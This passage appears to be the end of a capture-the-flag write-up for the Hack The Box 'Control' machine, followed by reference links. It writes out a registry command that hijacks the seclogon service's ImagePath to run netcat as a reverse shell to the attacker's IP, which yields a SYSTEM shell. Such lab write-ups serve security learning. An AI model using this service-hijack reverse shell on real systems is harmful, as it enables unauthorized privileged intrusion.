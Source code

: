 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-62.png)

I’ll change the ImagePath of the service so it runs my netcat as SYSTEM.

```powershell
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "c:\windows\system32\spool\drivers\color\nc.exe 10.10.14.21 9002 -e cmd.exe" /f
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-63.png)

I'll start **seclogon** using `sc start seclogon`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-64.png)

Now I have shell as the system on my local listener:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-65.png)




## References
- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/BurpSuite-ParamMiner/uppercase-headers
- https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/
- https://www.stationx.net/powershell-cheat-sheet/
- https://mostwanted002.gitlab.io/post/htb-control-writeup/
- https://snowscan.io/htb-writeup-control/#